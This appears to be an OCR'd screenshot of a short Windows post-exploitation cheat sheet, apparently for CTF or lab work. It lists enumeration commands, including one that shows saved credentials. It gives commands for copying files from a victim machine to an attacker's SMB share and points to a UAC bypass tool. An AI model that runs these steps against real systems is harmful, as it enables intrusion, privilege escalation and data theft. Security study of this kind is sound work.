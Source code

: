 ````markdown
## Windows Post-Exploitation Tips & Tools

### Enumeration & Privilege Escalation

- `icacls` – To check file and directory permissions  
- `schtasks` – To list and view scheduled tasks  
- `sc` – Service control manager (Windows equivalent of `systemctl`)  
- `whoami /priv` – To view privileges of the current user  
- `takeown` – To take ownership of a file  
- `cmdkey /list` – To view saved credentials in the Windows Credential Manager  
````
### File Sharing (SMB)

To share files from your Kali machine:

```bash
python smbserver.py share . -user alex -pass alex -smb2support
```

To retrieve files on the victim machine:

```cmd
net use \\{ip}\share /u:alex alex
copy file.file \\{ip}\share
```

### File Searching (Windows)

To search for files (similar to `grep`):

```cmd
search -f *flag* -r
```

### UAC Bypass

* [UACME GitHub Repository](https://github.com/hfiref0x/UACME) – Tool to bypass UAC
  *Note: Requires an Admin account with medium integrity level*


